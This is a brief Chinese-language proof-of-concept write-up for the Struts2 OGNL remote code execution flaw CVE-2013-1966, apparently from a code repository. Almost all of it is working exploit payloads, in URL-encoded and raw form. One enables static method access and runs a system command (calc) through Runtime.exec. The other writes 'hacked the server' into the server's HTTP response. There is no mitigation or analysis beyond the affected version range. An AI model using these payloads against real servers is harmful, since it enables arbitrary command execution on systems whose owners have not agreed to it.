

# Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.14.1

可以使用CVE-2013-1966的服务进行测试。  

POC过程:

<pre>
http://localhost:8080/struts2demo/HelloWorld.action?aaa=1%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%40java.lang.Runtime%40getRuntime%28%29.exec%28%22calc%22%29%7D
</pre>

成功调用计算器程序,如下图所示:

构造类似如下的payload:

<pre>
aaaa=1${#_memberAccess["allowStaticMethodAccess"]=true,@java.lang.Runtime@getRuntime().exec("calc")}
</pre>

可以使用如下的POC进行验证:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld.action?q=1%24%7B%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%2C%23c%3D%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2C%23c.print%28%27hacked+the+server%27%29%2C%23c.close%28%29%7D
</pre>

构造如下的结构:

<pre>
1${#_memberAccess['allowStaticMethodAccess']=true,#c=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#c.print('hacked the server'),#c.close()}
</pre>